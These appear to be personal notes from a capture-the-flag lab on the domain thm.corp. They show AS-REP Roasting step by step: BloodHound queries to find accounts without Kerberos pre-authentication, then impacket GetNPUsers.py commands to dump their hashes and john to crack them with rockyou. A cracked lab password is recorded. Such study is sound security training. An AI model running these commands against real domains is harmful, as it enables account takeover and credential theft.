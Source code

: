 AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos **pre-authentication disabled**, which we can then attempt to crack offline. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

You have credentials from the `AUTOMATE` user.

Use `GetNPUsers.py`, alternatively, we could also use Bloodhound to find them.

## Analyzing the BloodHound data

- In the `Analysis` section, you can find `Pre-Built Analytics Queries`.
- Run the `Find AS-REP Roastable Users (DontReqPreAuth)` Query.
	![[Screenshot from 2024-08-13 20-21-19.png]]
	There are 3 users that do not have `Kerberos pre-authentication` enabled.
## Getting hashes

- Paste the users into a file:

	```bash
	echo -e 'TABATHA_BRITT\nERNESTO_SILVA\nLEANN_LONG' > users
	```

- Use the `impacket` script `GetNPUsers.py` to perform the attack.

	`GetNPUsers.py -request thm.corp/ -usersfile users -format john -outputfile hashes.asreproast`

	![[Screenshot from 2024-08-19 20-00-04.png]]

- Crack them using `john`.
	`john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast`

### Impackets script `GetNPUsers.py`

`GetNPUsers.py` can be used to query those users; it will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH).

`GetNPUsers.py`: Extracts Kerberos AS-REQ messages for users without pre-authentication. If successful, it might generate a `.ccache` file containing the obtained tickets.
### Query AUTOMATE user

- `GetNPUsers.py thm.corp/AUTOMATE` and provide the password of `AUTOMATE` to get all AS-REProastbale users.

	![[Screenshot from 2024-08-11 20-58-47.png]]

### Query TABATHA_BRITT user

- `GetNPUsers.py thm.corp/TABATHA_BRITT`
	You don't need a password.
	![[Screenshot from 2024-08-11 21-04-21.png]]

### Cracking TABATHA_BRITT'S hash

- Copy the hash to file tabatha_hash.txt.
- Run `john --wordlist=/usr/share/wordlists/rockyou.txt tabatha_hash.txt`    
	![[Screenshot from 2024-08-11 21-17-33.png]]
	marlboro(1985)

**Next step:** [[Bloodhound]]
